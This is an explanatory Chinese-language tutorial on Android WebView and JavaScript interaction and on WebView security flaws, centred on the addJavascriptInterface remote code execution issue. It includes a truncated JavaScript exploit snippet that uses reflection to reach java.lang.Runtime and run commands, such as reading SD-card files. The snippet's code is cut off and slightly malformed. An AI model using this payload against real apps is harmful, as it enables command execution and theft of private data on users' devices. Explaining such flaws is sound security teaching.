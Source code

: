 ![img](https://webpon-img.oss-cn-guangzhou.aliyuncs.com/imgwebp-165461872835014.webp)

![img](https://webpon-img.oss-cn-guangzhou.aliyuncs.com/imgwebp-165461873690616.webp)

**三种方式的对比 & 使用场景**

![img](https://webpon-img.oss-cn-guangzhou.aliyuncs.com/imgwebp-165461875082618.webp)

###### webview与android交互总结

![img](https://webpon-img.oss-cn-guangzhou.aliyuncs.com/img944365-613b57c93dff2eb8.png)

###### WebView的使用漏洞

**1. 类型**

WebView中，主要漏洞有三类：

- 任意代码执行漏洞
- 密码明文存储漏洞
- 域控制不严格漏洞

**2. 具体分析**

**第一类：WebView 任意代码执行漏洞**
 出现该漏洞的原因有三个：

- WebView 中 addJavascriptInterface() 接口
- WebView 内置导出的 searchBoxJavaBridge_对象
- WebView 内置导出的 accessibility 和 accessibilityTraversalObject 对象

**原因一：addJavascriptInterface 接口引起远程代码执行漏洞**
 漏洞产生原因：
 JS调用Android的其中一个方式是通过addJavascriptInterface接口进行对象映射：

```cpp
// 参数1：Android的本地对象
// 参数2：JS的对象
// 通过对象映射将Android中的本地对象和JS中的对象进行关联，从而实现JS调用Android的对象和方法
 webView.addJavascriptInterface(new JSObject(), "myObj");
```

所以，漏洞产生原因是：当JS拿到Android这个对象后，就可以调用这个Android对象中所有的方法，包括系统类（java.lang.Runtime 类），从而进行任意代码执行。如可以执行命令获取本地设备的SD卡中的文件等信息从而造成信息泄露。

> 具体获取系统类的原理描述：（结合 Java 反射机制）
>
> 1. Android中的对象有一公共的方法：getClass()
> 2. 该方法可以获取到当前类的类型Class
> 3. 该类有一关键的方法： Class.forName,
> 4. 该方法可以加载一个类（可加载 java.lang.Runtime 类）,而该类是可以执行本地命令的。

以下是攻击的Js核心代码：

```jsx
function execute(cmdArgs)  
{  
    // 步骤1：遍历 window 对象
    // 目的是为了找到包含 getClass()的对象
    // 因为Android映射的JS对象也在window中，所以肯定会遍历到
    for (var obj in window) {  
        if ("getClass" in window[obj]) {  
            // 步骤2：利用反射调用forName()得到Runtime类对象
            alert(obj);          
            return  window[obj].getClass().forName("java.lang.Runtime")  
            // 步骤3：以后，就可以调用静态方法来执行一些命令，比如访问文件的命令
            getMethod("getRuntime",null).invoke(null,null).exec(cmdArgs);  
            // 从执行命令后返回的输入流中得到字符串，有很严重暴露隐私的危险。
            // 如执行完访问文件的命令之后，就可以得到文件名的信息了。
```